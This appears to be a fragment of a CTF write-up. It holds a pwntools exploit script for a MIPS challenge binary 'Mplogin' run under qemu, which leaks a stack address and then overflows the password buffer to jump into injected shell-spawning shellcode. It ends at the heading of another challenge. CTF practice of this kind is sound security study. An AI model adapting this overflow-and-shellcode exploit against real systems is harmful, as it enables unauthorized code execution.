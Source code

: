 ### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch='mips'
context.os='linux'
context.log_level = 'debug'
#context.binary=ELF('./Mplogin')
#p = process(["qemu-mipsel","-L","./","-g","1234","./Mplogin"])
p = process(["qemu-mipsel","-L","./","./Mplogin"])

ru('Username :')
pl='admin'
pl=pl.ljust(24,'a')
s(pl)
ru('adminaaaaaaaaaaaaaaaaaaa')
stack=u32(r(4))
leak('stack ',stack)
pl="access".ljust(0x14,"b")+p32(0x100)
sa("Pre_Password : ",pl)
pl="0123456789".ljust(0x28,"c")+p32(stack)+asm(shellcraft.sh())
ru("Password : ")
s(pl)
itr()
```

## DASCTF X 0psu3 shaopi (mipsrop)

### 思路
